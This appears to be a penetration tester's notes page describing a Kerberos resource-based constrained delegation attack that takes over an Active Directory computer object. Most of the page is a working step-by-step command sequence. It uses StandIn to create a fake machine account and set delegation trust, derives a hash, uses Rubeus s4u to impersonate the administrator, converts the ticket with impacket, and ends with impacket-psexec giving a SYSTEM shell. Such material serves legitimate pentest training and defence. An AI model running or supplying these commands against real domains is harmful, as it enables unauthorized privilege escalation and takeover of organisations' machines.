 ```yaml
---
description: >-
  Gaining code execution with elevated privileges on a remote computer if you
  have WRITE privilege on that computer's AD object.
---
```


# Kerberos Resource-based Constrained Delegation: Computer Object Takeover

## Overview

* You need to have <mark style="color:yellow;">Write privilege on a Domain AD Object</mark>
* Examples include <mark style="color:yellow;">WriteAll</mark> or <mark style="color:yellow;">GenericAll</mark>!
* This usually stems from a user as we can see in the picture below

What does that look like in BloodHound?

<figure><img src="../../../../.gitbook/assets/image (5) (1) (5).png" alt=""><figcaption></figcaption></figure>

* We can manipulate the target however we wish
* In other words, we can create or modify properties on the machine account

## BloodHound's Abuse Info (GenericAll)

* We can <mark style="color:yellow;">create a new machine account using a tool called</mark> <mark style="color:red;">**PowerMad**</mark>
* <mark style="color:yellow;">Modify the existing DC account so that it</mark> <mark style="color:red;">trusts</mark> <mark style="color:yellow;">our new machine account</mark>

### <mark style="color:yellow;">When we have Resource-Based Constrained Delegation...</mark>

* The computers specify WHICH machines they trust delegation authentication to
* Since we can write to the DC, we can tell the DC to trust our newly created/fake account
* Once we create the fake account, we can set <mark style="color:yellow;">msDS-AllowedToActOnBehalfOfOtherIdentity</mark> field of the computer account that we are taking over&#x20;
* The DC will trust this computer account with delegation
* We then use <mark style="color:yellow;">Rubeus</mark> to <mark style="color:yellow;">impersonate the Administrator on the DC</mark>
* We need PowerView, PowerMad, and Rubeus

### However, XCT has a better way!

* Upload <mark style="color:yellow;">Rubeus</mark> and <mark style="color:yellow;">StandIn</mark>
  * StandIn is a .NET native solution to perform resource-based constrained delegation

<mark style="color:yellow;">Rubeus:</mark>

{% embed url="https://github.com/GhostPack/Rubeus" %}

<mark style="color:yellow;">StandIn:</mark>

{% embed url="https://github.com/FuzzySecurity/StandIn/releases" %}

* Create a new computer account using StandIn

```
.\StandIn.exe --computer hacker --make
```

* Obtain SID

```
Get-ADComputer -Filter * | Select-Object Name, SID
```

* Set attribute with StandIn

```
.\StandIn.exe --computer COMPUTER_NAME_HERE --sid SID_HERE

AllowedToActOnBehalfOfOtherIdentity
```

* Use Python to convert MD5 to MD4

```
python3

import hashlib,binascii
hash = hashlib.new('md4', "PLACE_MD5_HASH_HERE".encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

* Now we can use Rubeus to craft a ticket to impersonate the administrator

```
.\Rubeus.exe s4u /user:hacker /rc4:MD4_HASH_HERE /impersonateuser:administrator /msdsspn:cifs/computer_name_here /nowrap /ptt

Ticket successfully imported
```

* Now check with klist

```
klist
```

* Unfortunately, we need to do this remotely, not locally
* Copy the ticket obtained from Rubeus above and copy it locally

```
subl ticket.b64 #Paste ticket in here

cat ticket.b64 | base64 -d > ticket.kirbi

impacket-ticketConverter ticket.kirbi ticket.ccache

export KRB5CCNAME='pwd'/ticket.ccache

klist #We can now see the ticket
```

* Lastly, we need to use the ticket!

```
impacket-psexec -k -no-pass domain.local/administrator@computer_name_here -dc-ip 192.168.114.175

C:\Windows\system32>
```

## Kerberos Delegation VS Resource-Based Constrained Delegation

* In unconstrained and constrained Kerberos delegation, a computer/user is told what resources it can delegate authentications to
* In resource based Kerberos delegation, computers (resources) specify who they trust and who can delegate authentications to them

## Reference

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/resource-based-constrained-delegation-ad-computer-object-take-over-and-privilged-code-execution" %}

{% embed url="https://www.youtube.com/watch?v=xMTCZt5DRB0" %}
